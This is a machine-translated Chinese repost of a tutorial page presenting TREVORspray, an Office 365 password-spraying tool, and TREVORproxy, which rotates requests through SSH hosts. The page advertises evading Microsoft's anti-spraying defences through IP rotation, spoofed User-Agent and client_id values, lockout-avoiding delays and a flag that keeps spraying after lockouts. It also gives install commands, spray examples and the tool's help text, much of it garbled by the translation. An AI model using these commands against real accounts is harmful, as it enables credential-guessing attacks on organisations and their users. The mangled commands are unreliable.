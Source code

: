 # TREVORspray:一个基于 MSOLSpray 的功能强大的循环 SOCKS 代理和 Python O365 喷雾器，它使用了 Microsoft Graph API

> 原文：<https://kalilinuxtutorials.com/trevorspray/>

[![](img/a77ce33348524585eb3006406ff71e88.png)](https://1.bp.blogspot.com/-VmCo5VNV33U/YTjtAzKrPRI/AAAAAAAAKw0/SPM2QGhHIHg_mNCw_MVoO3qsYGy56yfyACLcBGAsYHQ/s728/65870848%2B%25281%2529.png)

TREVORspray 是一款基于 MSOLSpray 的特色 Python O365 喷雾器，它使用了 Microsoft Graph API。TREVORproxy 是一个 SOCKS 代理，它通过 SSH 主机循环交换请求。

![](img/e9b89546fed2e620e86cd27341b186f1.png)

微软在阻止针对 O365 的密码喷涂攻击方面做得越来越好。 **TREVORspray 可以通过无限数量的`--ssh`主机**代理其请求来解决这一问题。不需要奇怪的依赖或繁琐的设置-您需要的只是一个端口 22 打开的云虚拟机。

功劳归功劳——这要归功于:

*   [@dafthack](https://twitter.com/dafthack) 为写作 [MSOLSpray](https://github.com/dafthack/MSOLSpray)
*   [@Mrtn9](https://twitter.com/Mrtn9) 为他的 Python 港口 [MSOLSpray](https://github.com/MartinIngesen/MSOLSpray)
*   @KnappySqwurl 作为一个 splunk 向导，让我知道我有多大声🙂

## 特性

*   告诉您每个帐户的状态:如果它存在，被锁定，已启用 MFA，等等。
*   自动取消/恢复(尝试的用户/通行组合在`./logs/tried_logins.txt`中记忆)
*   仅使用普通 IP 通过多个 IP 进行循环代理`--ssh`
*   如果代理关闭(或者如果您失去互联网)，自动无限重新连接/重试
*   欺骗`User-Agent`和`client_id`看起来像合法的授权流量
*   将所有内容记录到`./logs/trevorspray.log`
*   将有效用户名保存到`./logs/valid_usernames.txt`
*   请求绕过 M＄锁定对策之间的可选`--delay`

**安装**

**$ git 克隆 https://github.com/blacklanternsecurity/trevorspray
$ CD trevorspray
$ pip install-r requirements . txt**

**示例:喷涂 O365，两次请求之间有 5 秒钟的延迟**

**$ Trevor spray . py-e bob@evilcorp.com-p 2020 年秋季！–延迟 5**

**例:喷 O365，3 个 IP 之间轮循(当前 IP 也用。)**

**$ Trevor spray . py-e emails . txt-p fall 2020！宋承宪 root@1.2.3.4 root@4.3.2.1**

**Trevor spray–Help**

$ **。/Trevor spray . py–help
用法:Trevor spray . py[-h]-e EMAILS[EMAILS…]-p PASSWORDS[PASSWORDS…][-f][-d DELAY][-u URL][-v][-s SSH[SSH…]][-k KEY][-b BASE _ PORT][-n][-T2]对 O365 执行密码喷射，可选择代理通过 SSH 主机的流量
可选参数:
-h，–help 显示此帮助消息并退出
-e –PASSWORDS PASSWORDS[PASSWORDS…]
将用于执行密码喷射的密码
-f，–force 强制喷射继续进行，在检测到多个帐户锁定时不停止
-d DELAY，–DELAY DELAY
请求之间的睡眠秒数
-u URL，–URL URL 要喷射的 URL(默认为 https://login.microsoft.com)
-v，–verbose 显示每个请求使用的代理
-s SSH [SSH …]， –ssh SSH[SSH…]
通过这些 SSH 主机(user@host)进行循环负载平衡注意:当前 ip 地址每循环使用一次
-k KEY，–KEY KEY 连接到代理主机时使用此 SSH 密钥
-b BASE_PORT，–BASE-PORT BASE _ PORT
用于 SOCKS 代理的基本监听端口
-n，–no-Current-IP 不从当前 IP 喷射，仅使用 SSH 代理**

**已知限制**

*   未在 Windows 上测试
*   目前仅适用于 M$ Graph API

**Trevor proxy–Help**

**$。/Trevor proxy . py–help
用法:Trevor proxy . py[-h][-p PORT][-l LISTEN _ ADDRESS][-v][-k KEY][–BASE-PORT BASE _ PORT]ssh _ hosts[ssh _ hosts…]
生成一个 SOCKS 服务器，该服务器通过指定的 SSH 主机对请求进行轮循
位置参数:
ssh_hosts 通过这些 SSH 主机进行轮循负载平衡(user@host)
可选参数:
-h，–可选参数 –LISTEN-ADDRESS LISTEN _ ADDRESS
SOCKS 服务器的监听地址(默认值:127.0.0.1)**
**-v，–详细打印额外调试信息
-k KEY，–KEY KEY 连接到代理主机时使用此 SSH 密钥
–BASE-PORT BASE _ PORT
用于 SOCKS 代理的基本监听端口**

[**Download**](https://github.com/blacklanternsecurity/TREVORspray)